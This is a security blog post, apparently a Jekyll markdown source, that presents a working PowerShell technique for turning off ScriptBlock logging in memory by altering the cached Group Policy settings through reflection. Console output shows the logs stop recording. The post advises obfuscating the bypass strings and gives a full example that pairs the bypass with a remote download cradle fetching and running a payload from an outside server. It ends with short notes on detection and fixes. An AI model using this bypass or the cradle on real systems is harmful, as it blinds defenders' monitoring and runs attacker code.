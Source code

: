 ```yaml
---
layout: post
title: "PowerShell ScriptBlock Logging Bypass"
date: 2017-5-02 00:00:01 -0600
tags: PowerShell
---
```


In Windows 10 / PowerShell 5.0, Microsoft introduced several new security features in PowerShell. These included the AMSI, Protected Event Logging, and maybe most importantly **ScriptBlock logging**. The comprehensive ScriptBlock logging now available in PowerShell has presented serious problems for attackers. Now, it is possible for defenders to have access to full logs recording all of an attacker's malicious PowerShell activity. This has caused some to even suggest that the offensive community should move away from PowerShell altogether.

But all is not lost! (At least not yet)

ScriptBlock logging is enabled through a Group Policy setting, and PowerShell will query that Group Policy setting each time it sees a new ScriptBlock to determine if it should be logged. But it would be silly to query Group Policy *for each ScriptBlock*! Why not just query once and cache the result in memory?

Luckily, PowerShell caches the results of it's Group Policies in a utility dictionary, so it can query once, remember the value, and simply return that value the next time someone asks for it. Efficiency! Just one problem. You might remember me talking about some PowerShell reflection black magic in [my last post, where I detailed a ScriptBlock Warning-level log bypass](({{site.baseurl}}/ScriptBlock-Warning-Event-Logging-Bypass.html)). Well, it gets worse. (Or better, however you look at it.) That cached Group Policy dictionary can be altered with some [Matt Graeber style reflection magic](https://twitter.com/mattifestation/status/735261176745988096):

```
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

And for some evidence...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
0
PS> $GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
PS> $GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
PS> $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
PS> $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
14
PS> "testing 123"
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
14
```

There you have it: ScriptBlock Logging bypass! The best part? **All of this can be done in memory and without administrative privileges!** No need to edit Group Policy settings and no need to edit registry settings.

As a sidenote, remember that just like [the last bypass I posted]({{site.baseurl}}/ScriptBlock-Warning-Event-Logging-Bypass.html), this only takes affect *after the first ScriptBlock completes*. The bypass itself **will be logged**. With that in mind, I recommend:
* Using obfuscation on the "suspicious" strings in the bypass and/or using the Warning-level log bypass so that the first log doesn't get logged at the warning level
* Executing your payload using a remote download cradle (bonus points for [obfuscating the cradle](https://github.com/danielbohannon/Invoke-CradleCrafter)) so that the payload does not appear in logs at all

Example: [(Gist)](https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407)

```
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils')."GetFie`ld"('cachedGroupPolicySettings', 'N'+'onPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
iex (New-Object Net.WebClient).downloadstring("https://myserver/mypayload.ps1")
```

But we could probably alter **any** of the values in this dictionary, right? So let's take a look at what's in there:

```
PS> [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static').GetValue($null)

Key                         Value
---                         -----
ProtectedEventLogging       {[EnableProtectedEventLogging, 1], [EncryptionCertificate, -----BEGIN CERTIFICATE-----...
Transcription               {[EnableTranscripting, 1], [OutputDirectory, ]}
ScriptBlockLogging          {[EnableScriptBlockLogging, 1], [EnableScriptBlockInvocationLogging, 1]}
ConsoleSessionConfiguration
ModuleLogging               {[EnableModuleLogging, 1], [ModuleNames, System.String[]]}

```

Hmm...

At first, this looks like there is potential for more abuse. Initial testing has showed that simply replacing the values in the dictionary does *not* work to bypass Transcription logging, Module logging, or ProtectedEventLogging, but this may be a piece of the puzzle and I'll certainly be looking into those next. In the meantime, be sure to **utilize these other logging types in addition to ScriptBlock logging!**

## Detection?

Unfortunately for defenders, there doesn't currently seem to be a lot of great ways to detect this happening. Group Policy and registry entries **will still indicate that all logging types are enabled**. The one piece of evidence you *will* have is the 1 ScriptBlock log that contains the bypass. Defenders could start searching for the bypass within logs, but this could probably be avoided using some more obfuscation techniques.

## Fix?

This could be fixed pretty easily by taking out the Group Policy cache used in PowerShell altogether, though I have no idea how much that could affect performance. If that solution is not a possibility, then this may be a tough fix.
